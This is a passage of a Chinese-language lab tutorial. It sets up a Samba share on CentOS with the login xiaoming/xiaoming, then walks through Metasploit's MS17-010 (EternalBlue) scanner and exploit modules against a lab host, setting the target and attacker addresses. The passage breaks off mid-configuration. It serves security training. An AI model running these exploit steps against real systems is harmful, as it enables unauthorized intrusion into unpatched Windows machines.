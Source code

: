 ```
```

这里的意思是将 **/home/gyx/gongxiang** 文件夹作为共享文件夹，能访问的是 “**xiaoming**” 用户，且权限为，可读、可写。

---

#### 12，重启smb服务

`systemctl  restart  smb`

#### 13，用windows连接进行测试

保证Windows和centos之间可以互相通讯。

`win+r` 

`\\192.168.70.12\gongxiang`

连接后让输入用户名和密码。

直接输入转变的smb用户，密码就是转变用户时设置的密码。

**xiaoming/xiaoming**

## 3   漏洞分析

第一步先查看smb利用漏洞有哪些  比如永恒之蓝

1 查询msf与**永恒之蓝**相关的 模块

使用命令    `search ms17_010`

2 然后我们利用了一个永恒之蓝的 **扫描**模块

`use auxiliary/scanner/smb/smb_ms17_010`

3  输入  `options`  查看扫描模块需要配置的参数

3.1 然后我们配置了rhost  （rhost指的是目标主机ip）

`set rhost 192.168.70.12`

4 然后我们执行扫描 输入  `run`

发现了 可能存在漏洞的主机

## 4  渗透利用

---

1 加载 永恒之蓝**漏洞利用**模块

`use exploit/windows/smb/ms17_010_eternalblue`

2  输入  `options`  查看扫描模块需要配置的参数

3.1 然后我们配置了rhost  （rhost指的是目标主机ip）

`set rhost 192.168.70.12`

3.2 然后我们配置了  lhost （lhost指的是  监控主机或攻击机 ip）
